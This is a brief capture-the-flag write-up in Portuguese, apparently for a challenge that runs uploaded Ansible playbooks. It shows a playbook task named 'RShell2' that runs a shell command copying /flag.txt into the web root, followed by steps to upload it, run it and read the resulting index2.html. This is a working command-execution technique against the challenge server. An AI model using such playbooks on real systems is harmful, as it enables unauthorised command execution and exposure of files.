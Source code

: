 
Usando o seguinte yaml
```yaml
- hosts: localhost
  tasks:
    - name: RShell2
      shell: bash -c 'cat /flag.txt >> /var/www/html/index2.html'
```
Podemos pegar a flag criando uma nova index no servidor, e depois ler ela

1. Envie o arquivo para a aplicação
2. Execute-o
3. Acesse index2.html


<img src="images/Pasted image 20230822160126.png">


<img src="images/Pasted image 20230822160140.png">
